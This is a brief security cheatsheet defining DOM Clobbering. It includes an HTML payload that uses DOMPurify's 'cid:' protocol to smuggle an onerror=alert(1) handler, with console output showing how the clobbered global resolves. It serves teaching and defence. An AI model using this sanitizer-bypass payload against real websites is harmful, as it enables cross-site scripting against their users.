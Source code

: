 ```yaml
---
title: DOM Clobbering
description: DOM Clobbering cheatsheet
---
```


## Definition

**DOM Clobbering** is a type of attack that involves **overwriting the properties of a Document Object Model (DOM)** object in a web page with malicious code. This can allow an attacker to execute arbitrary JavaScript code in the victim's browser, potentially leading to the theft of sensitive information or other malicious activities. The term "clobbering" refers to the way in which the attacker overwrites the properties of the DOM object, effectively "clobbering" the original values with their own. DOM Clobbering attacks are often used in conjunction with cross-site scripting (XSS) attacks, and can be difficult to defend against. It is important for web developers to be aware of this type of attack and take steps to prevent it.

## Cheatsheet

```html
<div id="defaultAvatar"></div>
<a id="defaultAvatar" name="avatar" href="cid:&quot;onerror=alert(1)//">
```

```javascript
window.defaultAvatar
// HTMLCollection(2) [div#defaultAvatar, a#defaultAvatar, defaultAvatar: div#defaultAvatar, avatar: a#defaultAvatar]
defaultAvatar
// HTMLCollection(2) [div#defaultAvatar, a#defaultAvatar, defaultAvatar: div#defaultAvatar, avatar: a#defaultAvatar]

defaultAvatar.avatar
// <a id="defaultAvatar" name="avatar" href="javascript:alert()"></a>
defaultAvatar.avatar + ''
// 'cid:"onerror=alert(1)//'
```

> `DOMPurify` allows you to use the `cid:` protocol, which does **not** URL-encode double-quotes.

## References

- [PortSwigger - DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)